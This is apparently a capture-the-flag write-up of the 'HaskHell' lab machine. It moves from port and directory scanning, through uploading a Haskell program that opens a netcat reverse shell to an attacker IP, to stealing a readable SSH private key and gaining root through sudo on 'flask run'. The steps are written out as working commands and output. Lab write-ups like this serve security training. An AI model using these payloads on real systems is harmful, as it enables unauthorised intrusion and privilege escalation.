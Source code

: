 ```yaml
---
layout: post
date: 2021-8-26 -0500
title: HaskHell 
---
```


# HaskHell

Room Description : Teach your CS professor that his PhD isn't in security.

lets begin by running Nmap scan ` sudo nmap -sS -A <IP> -v -oN scan `

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
```

We have discovered a webserver running on port 5001, which seems to hosted by a professor.

![](https://user-images.githubusercontent.com/75718583/130963432-ab921629-ac32-4c43-83a5-db48a40b6af0.png)

On exploring the webiste there is a link for uploading homework that redirect to http://<IP>/upload which dose not seems to works.

lets run dirsearch for discovering hidden directories or files.

```console
dirsearch -u http://10.10.153.185:5001/ --simple-report=web_dir
```
```console
  _|. _ _  _  _  _ _|_    v0.4.1                                                                     
 (_||| _) (/_(_|| (_| )                                                                              
                                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-26_17-24-56.log

Target: http://10.10.153.185:5001/                                                                   
                                                                                                     
Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.153.185/_21-08-26_17-24-57.txt

[17:24:57] Starting: 
[17:25:03] 200 -  131B  - /uploads/affwp-debug.log       
[17:28:07] 200 -  237B  - /submit                                                        
[17:28:45] 500 -  291B  - /uploads/dump.sql                                                     

Task Completed                                                                                       
``` 
On visiting /submit page we can find a submit button. We can submit our haskell code and run arbitary comands on the server.

![image](https://user-images.githubusercontent.com/75718583/130962994-6d9768d9-47c5-4c5e-9108-dbe5bcc90695.png)

lets create a revshell

```haskell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <Your IP> 4444 >/tmp/f"
```
Uploading this script we get our revershell

```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ nc -lnvp 4444                                                                             
listening on [any] 4444 ...
connect to [10.8.167.134] from (UNKNOWN) [10.10.150.235] 45040
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
```
lets Spawn a stable shell
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
flask@haskhell:~$ ls
ls
app.py  app.pyc  __pycache__  uploads
```
On enumerating the machine I'have found 2 user prof & haskell, in prof's home folder there was user.txt which contains user flag.

```console
flask@haskhell:/home/prof$ ls -al
ls -al
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt

```
```console
flask@haskhell:/home/prof$ cat us 
cat user.txt 
flag{<secret>}
```
Surprisingly .ssh folder was accessible by anyone on visiting .ssh we found ssh keys for the user prof.
```console
cd .ssh
cd .ssh
flask@haskhell:/home/prof/.ssh$ ls -al
ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
.........................................
-----END RSA PRIVATE KEY-----
```
  
Lets copy this key to our machine and ssh into the user prof another great thing is that this keys is not even password protected.
```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ chmod 600 id_rsa                                                                      
                                                                                                     
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ ssh -i id_rsa prof@10.10.150.235
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

  
```  
On checking privileges for user prof we find that he can run `/usr/bin/flask run` with root privileges.

For exploiting this we need to create a python script for spawing a root shell
```python
#!/usr/bin/python
import os
os.system("/bin/bash")
```
Set the variable to our newly created file

```console
export FLASK_APP=/home/prof/bash.py
```

Run `sudo /usr/bin/flask run`
```console
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# ls
app.py  __pycache__  rev.sh  user.txt
```
Got the root.txt

```console
root@haskhell:/root# cat root.txt 
flag{<secret>}
```
